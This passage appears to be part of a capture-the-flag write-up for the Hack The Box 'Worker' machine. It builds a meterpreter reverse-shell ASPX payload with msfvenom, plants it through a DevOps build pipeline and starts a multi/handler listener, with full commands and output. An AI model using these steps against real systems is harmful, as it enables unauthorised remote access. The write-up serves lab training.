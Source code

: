 ![[6.png]]

Create payload with msfvenom
```sh
┌──(kali㉿kali)-[~/boxes/htb/worker]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.12 LPORT=443 -f aspx -o test.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of aspx file: 3645 bytes
Saved as: test.aspx
```

Browse to the file, select the payload just created and then click on commit.

![[7.png]]


Now that the .aspx file has been added to the branch, I needed to go to pipelines and queue the build with the branch just created. This took me a little to figure out, as just completing a pull request did not upload the payload. Navigate to Pipelines, select the correct repository and click on Queue in the upper right hand corner, shown in the image below. The user currently is able to queue a build, but not create a new build.

![[8.png]]

Select the correct branch that was created, and click on queue at the bottom.

![[9.png]]



Within the pipeline section of the devops site, I found this page that showed the target folder of the build (bottom right), note the w:\.

![[10.png]]


adding another line to /etc/hosts (spectral.worker.htb) I was able to view the site.

![[11.png]]

Before we visit the page containing the aspx payload, set up a listener with msfconsole

```sh
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.12
LHOST => 10.10.14.12
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.12:443 
```

